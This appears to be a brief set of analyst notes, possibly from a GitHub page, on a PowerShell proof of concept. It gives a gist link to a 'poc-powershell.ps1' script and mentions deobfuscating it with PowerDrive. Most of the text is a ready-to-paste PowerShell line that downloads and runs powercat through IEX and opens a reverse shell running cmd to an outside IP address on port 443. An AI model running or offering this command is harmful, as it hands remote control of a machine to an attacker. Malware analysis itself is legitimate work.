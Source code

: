# Notes

`https://gist.githubusercontent.com/fareedfauzi/3fd1b5e30cb496d05749aef50e6a628e/raw/f875ab492faa26a3b2818bd6ca7b78b02d37bac8/poc-powershell.ps1`

then use PowerDrive to deobfuscate

`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 134.209.101.218 -p 443 -e cmd`
